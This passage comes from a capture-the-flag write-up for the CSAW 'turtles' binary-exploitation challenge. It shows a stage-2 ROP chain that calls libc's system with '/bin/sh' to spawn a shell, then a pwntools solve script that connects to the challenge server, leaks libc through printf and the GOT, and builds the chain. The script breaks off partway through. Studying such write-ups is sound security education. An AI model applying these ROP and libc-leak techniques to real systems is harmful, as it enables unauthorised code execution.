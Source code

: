 Using that knowledge, we can now calculate the address of `system` in the libc  
and get a shell:

Stage 2 ROP-chain:

```py  
data = b"/bin/sh"  
  
rop.raw(rop_rdi)  
rop.raw(turtle + base_data)  
rop.raw(libc.symbols[b"system"])  
```

With that, we can execute `cat flag` and get the flag:

```  
flag{i_like_turtl3$_do_u?}  
```

## The Script

This is the python script used to solve the challenge, after being cleaned up
a  
bit:

```py  
from pwn import *

context.arch = "amd64"

r = remote("pwn.chal.csaw.io", 9003)

libc = ELF("libs-nopreload/libc.so.6")

r.readuntil(b": ")  
turtle = int(r.readline(), 16)  
print("turtle address: 0x{:016x}".format(turtle))

main_addr = 0x400B84  
class_turtle = 0x6014c0

rop_adjust4 = 0x00400d3c  
rop_rdi = 0x00400d43  
rop_rsi_r15 = 0x00400d41

method = rop_adjust4

base_vtable = 0x90  
base_data = 0x80  
rop_chain = b"CCCCCCCC"

printf_plt = 0x4009D0  
setvbuf_got = 0x601288

rop = ROP([ELF("./turtles")])

rop.raw(rop_rdi)  
rop.raw(turtle + base_data)

rop.raw(rop_rsi_r15)  
rop.raw(setvbuf_got)  
rop.raw(0)

rop.raw(printf_plt)  
rop.raw(main_addr)

data = b"%sEND"
```